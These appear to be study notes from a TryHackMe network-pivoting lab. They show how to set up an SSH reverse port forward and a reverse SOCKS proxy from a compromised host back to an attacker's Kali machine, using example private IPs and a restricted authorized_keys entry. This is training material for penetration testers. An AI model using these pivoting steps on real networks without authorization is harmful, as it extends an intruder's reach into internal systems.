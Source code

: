 * First, generate a new set of SSH keys and store them somewhere safe `ssh-keygen`
* Copy the contents of the public key (the file ending with .pub), then edit the \~/.ssh/authorized\_keys file on your own attacking machine. You may need to create the \~/.ssh directory and authorized\_keys file first.
* On a new line, type the following line, then paste in the public key:

```
command="echo 'This account can only be used for port forwarding'",no-agent-forwarding,no-x11-forwarding,no-pty
```

* This makes sure that the key can only be used for port forwarding, disallowing the ability to gain a shell on your attacking machine.
* The final entry in the authorized\_keys file should look something like this:
* ![alt text](https://assets.tryhackme.com/additional/wreath-network/055753470a05.png)
* Next. check if the SSH server on your attacking machine is running:

```
sudo systemctl status ssh
```

* The only thing left is to do the unthinkable: transfer the private key to the target box.
* With the key transferred, we can then connect back with a reverse port forward using the following command:

```
ssh -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -fN
```

* To put that into the context of our fictitious IPs: `172.16.0.10` and `172.16.0.5`, if we have a shell on `172.16.0.5` and want to give our attacking box (`172.16.0.20`) access to the webserver on `172.16.0.10`, we could use this command on the `172.16.0.5` machine:

```
ssh -R 8000:172.16.0.10:80 kali@172.16.0.20 -i KEYFILE -fN
```

* This would open up a port forward to our Kali box, allowing us to access the `172.16.0.10` webserver, in exactly the same way as with the forward connection we made before!

#### Note

* In newer versions of the SSH client, it is also possible to create a reverse proxy (the equivalent of the -D switch used in local connections).
* This may not work in older clients, but this command can be used to create a reverse proxy in clients which do support it:

```
ssh -R 1337 USERNAME@ATTACKING_IP -i KEYFILE -fN
```

* To close any of these connections, type ps aux | grep ssh into the terminal of the machine that created the connection:
* ![alt text](https://assets.tryhackme.com/additional/wreath-network/daf8fd5c8540.png)
* Find the process ID (PID) of the connection. In the above image this is 105238.
* Finally, type sudo kill PID to close the connection:
* ![alt text](https://assets.tryhackme.com/additional/wreath-network/dc4393e7991e.png)

#### Examples
